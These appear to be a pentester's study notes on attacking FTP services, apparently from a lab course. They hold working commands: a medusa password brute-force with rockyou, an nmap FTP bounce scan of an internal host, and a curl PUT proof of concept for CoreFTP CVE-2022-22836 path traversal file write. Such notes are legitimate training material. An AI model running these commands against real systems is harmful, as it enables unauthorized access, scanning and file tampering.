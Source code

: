 brute forcing ftp with medusa
```shell-session
 medusa -u fiona -P /usr/share/wordlists/rockyou.txt -h 10.129.203.7 -M ftp 
```
can use -U for username list
alt: [[Crackmapexec]] [[3 Exploitation/Brute Force/Hydra]]



More importantly
# FTP Bounce Attack 
use FTP server to deliver outbound traffic to another device 
use PORT command to trick FTP connection into running commands and getting information from a device other than the intended server


## Example
Consider we are targetting an FTP Server `FTP_DMZ` exposed to the internet. Another device within the same network, `Internal_DMZ`, is not exposed to the internet. We can use the connection to the `FTP_DMZ` server to scan `Internal_DMZ` using the FTP Bounce attack and obtain information about the server's open ports. Then, we can use that information as part of our attack against the infrastructure.

![Diagram showing attacker using an intermediate device to connect to a target, execute commands, and receive sensitive data.](https://academy.hackthebox.com/storage/modules/116/ftp_bounce_attack.png)

```shell-session
nmap -Pn -v -n -p80 -b anonymous:password@10.10.110.213 172.17.0.2
```
but modern ftp servers have protections unless its misconfigured 

# CoreFTP CVE-2022-22836
FTP service does not correctly process HTTP PUT request and that leads to an authenticated directory/path traversal and arbitrary file write outside the directory to which the service has access to

FTP services that uses HTTP POST request to upload files
```shell-session
curl -k -X PUT -H "Host: <IP>" --basic -u <username>:<password> --data-binary "PoC." --path-as-is https://<IP>/../../../../../../whoops
```
